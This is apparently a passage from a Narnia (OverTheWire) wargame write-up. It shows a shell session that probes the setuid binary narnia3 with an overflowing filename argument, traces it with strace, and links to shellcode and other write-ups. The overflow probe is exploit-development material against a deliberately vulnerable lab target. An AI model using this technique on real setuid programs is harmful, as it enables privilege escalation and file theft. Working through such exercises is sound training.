     narnia3@gibson:/tmp/tsos$ touch lala
    narnia3@gibson:/tmp/tsos$ chmod 777 lala
    narnia3@gibson:/tmp/tsos$ ls -l
    total 0
    -rwxrwxrwx 1 narnia3 narnia3 0 Jul 23 12:23 lala
    narnia3@gibson:/tmp/tsos$ strace /narnia/narnia3 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAlala
    execve("/narnia/narnia3", ["/narnia/narnia3", "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...], 0x7fffffffe208 /* 36 vars */) = 0
    [ Process PID=1845420 runs in 32 bit mode. ]
    brk(NULL)                               = 0x804c000
    fcntl64(0, F_GETFD)                     = 0
    fcntl64(1, F_GETFD)                     = 0
    fcntl64(2, F_GETFD)                     = 0
    mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xf7fc1000
    access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
    openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_LARGEFILE|O_CLOEXEC) = 3
    statx(3, "", AT_STATX_SYNC_AS_STAT|AT_NO_AUTOMOUNT|AT_EMPTY_PATH, STATX_BASIC_STATS, {stx_mask=STATX_BASIC_STATS|STATX_MNT_ID, stx_attributes=0, stx_mode=S_IFREG|0644, stx_size=31643, ...}) = 0
    mmap2(NULL, 31643, PROT_READ, MAP_PRIVATE, 3, 0) = 0xf7fb9000
    close(3)                                = 0
    openat(AT_FDCWD, "/lib/i386-linux-gnu/libc.so.6", O_RDONLY|O_LARGEFILE|O_CLOEXEC) = 3
    read(3, "\177ELF\1\1\1\3\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0\0O\2\0004\0\0\0"..., 512) = 512
    statx(3, "", AT_STATX_SYNC_AS_STAT|AT_NO_AUTOMOUNT|AT_EMPTY_PATH, STATX_BASIC_STATS, {stx_mask=STATX_BASIC_STATS|STATX_MNT_ID, stx_attributes=0, stx_mode=S_IFREG|0755, stx_size=2313128, ...}) = 0
    mmap2(NULL, 2341052, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0xf7d7d000
    mmap2(0xf7da0000, 1601536, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x23000) = 0xf7da0000
    mmap2(0xf7f27000, 544768, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1aa000) = 0xf7f27000
    mmap2(0xf7fac000, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x22f000) = 0xf7fac000
    mmap2(0xf7faf000, 39100, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0xf7faf000
    close(3)                                = 0
    set_thread_area({entry_number=-1, base_addr=0xf7fc24c0, limit=0x0fffff, seg_32bit=1, contents=0, read_exec_only=0, limit_in_pages=1, seg_not_present=0, useable=1}) = 0 (entry_number=12)
    set_tid_address(0xf7fc2528)             = 1845420
    set_robust_list(0xf7fc252c, 12)         = 0
    rseq(0xf7fc2960, 0x20, 0, 0x53053053)   = 0
    mprotect(0xf7fac000, 8192, PROT_READ)   = 0
    mprotect(0xf7ffb000, 8192, PROT_READ)   = 0
    ugetrlimit(RLIMIT_STACK, {rlim_cur=8192*1024, rlim_max=RLIM_INFINITY}) = 0
    munmap(0xf7fb9000, 31643)               = 0
    openat(AT_FDCWD, "lala", O_RDWR)        = 3 (2)
    openat(AT_FDCWD, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAlala", O_RDONLY) = -1 ENOENT (No such file or directory) (3)
    statx(1, "", AT_STATX_SYNC_AS_STAT|AT_NO_AUTOMOUNT|AT_EMPTY_PATH, STATX_BASIC_STATS, {stx_mask=STATX_BASIC_STATS|STATX_MNT_ID, stx_attributes=0, stx_mode=S_IFCHR|0620, stx_size=0, ...}) = 0
    getrandom("\x86\x0a\x46\xd8", 4, GRND_NONBLOCK) = 4
    brk(NULL)                               = 0x804c000
    brk(0x806d000)                          = 0x806d000
    brk(0x806e000)                          = 0x806e000
    write(1, "error opening AAAAAAAAAAAAAAAAAA"..., 51error opening AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAlala
    ) = 51
    exit_group(-1)                          = ?
    +++ exited with 255 +++


[REF_1]: http://shell-storm.org/shellcode/files/shellcode-607.html
[REF_2]: https://security.stackexchange.com/questions/184842/shellcode-does-not-execute-as-the-owner
[REF_3]: https://nicolagatta.blogspot.com/2019/05/overthewireorg-narnia-level-2-writeup.html